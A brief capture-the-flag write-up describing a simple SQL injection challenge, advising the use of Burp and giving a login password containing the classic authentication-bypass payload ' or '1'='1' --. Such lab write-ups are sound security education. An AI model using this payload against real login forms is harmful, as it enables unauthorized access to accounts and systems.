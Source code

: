 # Writeup
simple SQLi.  
use burp.  
A redirct page has a flag.
```
username: aaa
password: aa' or '1'='1' --
```